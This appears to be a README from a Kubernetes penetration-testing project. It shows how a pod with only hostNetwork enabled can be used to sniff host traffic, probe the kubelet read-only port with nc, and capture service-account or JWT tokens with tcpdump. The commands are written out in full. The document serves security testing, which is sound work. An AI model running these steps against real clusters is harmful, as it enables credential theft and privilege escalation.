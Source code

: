 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)


### Create pod
```bash 
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostnetwork-only.yaml   

# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 

```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

### Post Exploitation 
```bash
# Install tcpdump and sniff traffic 
# Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

apt update && apt install tcpdump 

# You now have a few options for next steps: 

# See if kubelet read only port (10255/tcp) is open on the nodes IP or the docker host IP

nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!

# If the read only port is open, run tcpdump recording the output to a file for a few minutes

#Warning: Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)

#Warning: Always run tcpdump with the -n flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255

#Stop it, and read the file with tcpdump and use the -A flag to only show the printable characters

tcpdump -ro kubelet-ro.cap -s0 -A

#Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in kube-system.


# Another option entirely: investigate local services
curl https://localhost:1234/metrics
```